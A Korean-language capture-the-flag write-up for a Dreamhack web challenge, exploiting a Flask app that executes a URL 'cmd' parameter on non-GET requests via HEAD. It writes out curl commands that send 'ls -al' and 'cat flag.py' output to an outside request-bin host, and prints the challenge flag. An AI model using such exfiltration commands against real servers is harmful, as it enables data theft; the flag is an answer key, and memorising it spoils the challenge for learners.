 문제는 **Read the flag file XD** 입니다.  
뭔가 flag 파일을 찾는 문제인 것 같습니다.  
```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```
코드를 보면 다음과 같은 기능을 합니다.  
1. cmd 를 url에서 입력받는다.
2. 만약, request method 가 **GET 이면, 아무것도 안함**
3. 그게 아니라 request method 가 **GET이 아니면, 입력받은 cmd 를 실행**한다.

<img src="1.jpg"> <img src="2.jpg">  
처음에 들어가면, cmd를 입력하라는 문구가 나옵니다.  
그리고 예시를 작성하면, 다음과 같이 적은 cmd가 나오는 것을 알 수 있습니다.  
<img src="3.jpg"> <img src="4.jpg">  
burp suite를 이용해 cmd에 ls를 적었을 때의 request message를 봤습니다.  
예시를 들어서, **GET 메소드로 request**를 한다면, 위의 이미지처럼 그냥 **아무것도 하지 않고 'ls' 가 나오는 것**을 알 수 있습니다.  
<img src="5.jpg"> <img src="6.jpg">  
그래서 GET 메소드 말고 다른 메소드인 **POST 를 통해 request** 를 했습니다.  
그런데 **POST 메소드는 지원하지 않는다**고 나왔습니다.  
<img src="7.jpg"> <img src="8.jpg">  
이럴 때 어떤 메소드를 사용할 수 있는지 알 수 있는 메소드가 있습니다.  
바로 **OPTION** 입니다.(https://gnaseel.tistory.com/24)  
그래서 위의 이미지처럼 OPTION 을 이용해서 request 를 했고, 이에 대한 response message로 **HEAD, OPTIONS, GET** 을 사용할 수 있다는 것을 알았습니다.  
<img src="9.jpg">  
이미지를 찍지 못했지만, 실제로 HEAD로 request 하면 POST 때처럼 오류가 발생하지 않고 그냥 정상적으로 작동합니다.  
그러나 저희가 실질적으로 사용할 수 있는 것은 **HEAD** 밖에 없습니다.  
HEAD는 GET과 동일하지만, **response에 Body가 없고** response Code와 Head만 응답받습니다.  
즉, 저희가 원하는 cmd의 결과를 받을 수 없다는 뜻입니다.  
여기서 어떻게 해야할 지 모르겠어서 찾아봤습니다.  
결론적으로 **새로운 서버를 열어서 그 서버로 적은 cmd를 요청**하면 된다는 것이었습니다.  
여기서 드림핵에서 제공해준 도구인 **https://tools.dreamhack.games/myrequest** 에서 **Request Bin** 를 사용할 수 있습니다.  
<img src="10.jpg">  
제가 문제를 풀었을 때 사용했던 사이트는 **https://chsfqtv.request.dreamhack.games** 입니다.  

여기까지 하면 cmd 결과를 받을 서버까지 만든 상태입니다.  
그렇다면 cmd 결과를 서버로 전송하는 명령어는 무엇일까요?  
이것도 검색결과 **curl** 라는 명령어입니다.(https://inpa.tistory.com/entry/LINUX-%F0%9F%93%9A-CURL-%EB%AA%85%EB%A0%B9%EC%96%B4-%EC%82%AC%EC%9A%A9%EB%B2%95-%EB%8B%A4%EC%96%91%ED%95%9C-%EC%98%88%EC%A0%9C%EB%A1%9C-%EC%A0%95%EB%A6%AC)  
<img src="11.jpg">  
즉, cmd에 **curl -X POST -d "$(ls -al)" https://chsfqtv.request.dreamhack.games** 같이 명령어를 적습니다.  
**https://chsfqtv.request.dreamhack.games 에 POST 방식으로 문제 사이트에서 ls -al 를 실행한 결과를** 전송하는 명령어입니다.  
위의 이미지는 인코딩해서 약간 다르게 나왔습니다.  
<img src="12.jpg">  
**ls -al** 를 했을 때 **flag.py** 가 있는 것을 확인했습니다.  
<img src="13.jpg">  
이전처럼 **curl -X POST -d "$(cat flag.py)" https://chsfqtv.request.dreamhack.games** 이렇게 cmd에 값을 넣는데,  ls -al 을 **cat flag.py** 를 통해 flag를 출력합니다.  
<img src="14.jpg">  
따라서 정답은 **DH{4c9905b5abb9c3eb10af4ab7e1645c23}** 입니다.  


